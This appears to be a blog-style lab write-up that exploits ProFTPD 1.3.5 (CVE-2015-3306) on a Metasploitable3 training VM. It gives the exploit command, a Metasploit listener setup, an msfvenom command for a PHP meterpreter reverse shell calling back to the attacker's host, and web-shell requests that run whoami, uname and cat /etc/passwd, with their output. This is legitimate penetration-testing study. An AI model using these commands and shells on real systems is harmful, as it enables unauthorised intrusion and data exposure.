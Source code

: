 ```yaml
---
layout: post
title: "Metasploitable Series"
categories: ["Hands-on", "Metasploitable"]
tags: "Metasploitable Series"
---
```


# Metasploitable Series
## Issue 1 : ProFTPD 1.3.5

![Nmap Scan](/images/nmap-scan1.png)

The first step that was done was scan the machine using nmap -sV -A

The main focus in this FTP exploitation

VICTIM IP = 192.168.199.130

# FTP services

## Version : ProFTPD 1.3.5

since we get the version number I decided on using _searchsploit_ to locate any existing exploit

![search exploit](/images/searchsploitFTP.png)

### Mode_copy remote command execution

- sudo python 49908.py 192.168.199.130  
  allows the remote attacker to read and write arbitary files via the side CPFR and site CPTO commands
  When running the command we were able to put a test.php in the victim!
  instead of test.php what if i uploaded a _reverse shell_ php?

### Making a backdoor php using venom

we need to upload the reverse shell php and have a listener set up to capture the connection

1. Setting up the listener using msfconsole

- msfconsole
- use exploit/multi/handler
- set Lhost 192.168.199.128
- set Lport 4444
- set payload windows/meterpreter/reverse_tcp
- run


![Listener](/images/listener.png)


2. Creating reverse shell using msfvenom

- msfvenom -p php/meterpreter_reverse_tcp -o shell.php LHOST=192.168.199.128 LPORT=4444

## Exploiting CVE-2015-3306

i had problems with 49908.py exploit so i used https://github.com/t0kx/exploit-CVE-2015-3306
after reading the exploit I understood that we have to add to the link the cmd command like the below:

![exploit](/images/ftpmcexploit.png)

![test PHP](/images/testphp.png)


http://192.168.199.130/backdoor.php?cmd=ls

### What we can find out

WHOAMI
http://192.168.199.130/backdoor.php?cmd=whoami _www-data_

Os Running
http://192.168.199.130/backdoor.php?cmd=uname -a _Linux metasploitable3-ub1404 3.13.0-24-generic #46-Ubuntu SMP Thu Apr 10 19:11:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux_

Users in the machine
http://192.168.199.130/backdoor.php?cmd=cat%20/etc/passwd

users found

- luke_skywalker
- han_solo
- artoo_detoo
- leia_organa
- c_three_pio
- ben_kenobi
- darth_vader
- anakin_skywalker
- jarjar_binks
- lando_calrissian
- boba_fett
- jabba_hutt
- kylo_ren
- chewbacca
- greedo
